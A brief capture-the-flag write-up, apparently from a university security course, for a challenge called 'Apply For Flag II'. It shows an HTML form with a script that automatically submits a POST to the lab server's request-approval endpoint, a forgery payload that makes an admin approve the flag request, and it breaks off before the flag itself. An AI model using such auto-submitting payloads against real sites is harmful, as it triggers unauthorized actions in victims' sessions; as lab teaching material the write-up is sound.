


# Apply For Flag II

- First we disable javascript on browser then we used teh following code changing "id" by the request id:



```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/ id /approve" role="form">
<div class="submit">
<input type="submit" id="giveflag" value="Give the flag">
</div>
</form>
<script type="text/javascript">
document.querySelector('#giveflag').click();
</script>
```

- Then we got the flag:
  
